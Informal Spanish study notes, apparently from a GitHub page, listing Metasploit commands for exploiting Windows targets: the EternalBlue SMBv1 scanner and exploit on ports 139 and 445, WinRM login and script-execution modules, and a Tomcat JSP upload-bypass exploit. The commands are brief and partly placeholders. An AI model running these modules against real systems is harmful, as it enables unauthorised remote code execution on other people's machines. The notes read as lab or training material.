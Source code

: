 ### MS17-010 - Eternalblue SMBv1 

>Colección de vulnerbailidades Windows que nos dejan ejecutar código ahí jeje
>Es una vulnerabilidad del servicio SMB que permite ejecutar código 

- El ejemplo se ha hecho con windows 7, ha de tener abiertos los puertos **139 y 445**

>**En metasploit **

```bash
# Checkear si es vulnerable
use scanner/smb/smb_ms17_010

show options
Check_ARCH true
CHECK_DOPU true
```

- Explotar
```bash
search type:epxloit EternalBlue
use 0
set lo que sea 
run
```

###  WinRM (Windows Remote Management Protocol)

>Trabaja con los puertos :
>**TCP --> 5985**
**>HTTP --> 5986**

- Si hay servicio winRM expuesto, **verificar los users**
- Auxiliares 
```bash
winrm_auth_methods --> recopila el método d eautenticación
winrm_login
```

- Exploits
```bash
set FORCE_VBS true
windows/winrm/winrm_script_exec
```

### Tomcat

>Hecho para Albergar WebApps hechas en  **Java**

- Exploits
```bash
exploit/multi/http/tomcat_jsp_upload_bypass
set shell cmd
# Marcar a que so le tiramos la vaina bacana
info o show options
```

